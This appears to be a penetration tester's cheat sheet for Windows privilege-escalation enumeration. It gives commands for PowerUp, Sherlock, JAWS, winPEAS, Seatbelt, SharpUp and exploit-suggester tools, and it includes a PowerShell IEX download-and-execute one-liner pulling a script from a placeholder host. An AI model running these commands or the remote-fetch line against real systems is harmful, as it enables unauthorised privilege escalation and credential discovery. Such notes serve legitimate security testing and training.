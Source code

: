 # enumeration\_auto

## Path fix

```
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %}
{% tab title="PowerUp.ps1" %}
```bash
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```
{% endtab %}

{% tab title="Sherlock.ps1" %}
```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```
{% endtab %}

{% tab title="JAWS.ps1" %}
```bash
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```
{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}
```bash
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```
{% endtab %}
{% endtabs %}

## [winPEAS ](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)| [Seatbelt ](https://github.com/GhostPack/Seatbelt)| [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %}
{% tab title="winPEAS" %}
```bash
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```
{% endtab %}

{% tab title="Seatbelt" %}
```bash
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```
{% endtab %}

{% tab title="SharpUp" %}
```bash
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```
{% endtab %}
{% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %}
{% tab title="windows-exploit-suggester" %}
```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```
{% endtab %}

{% tab title="wes-ng" %}
```python
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```
{% endtab %}
{% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}
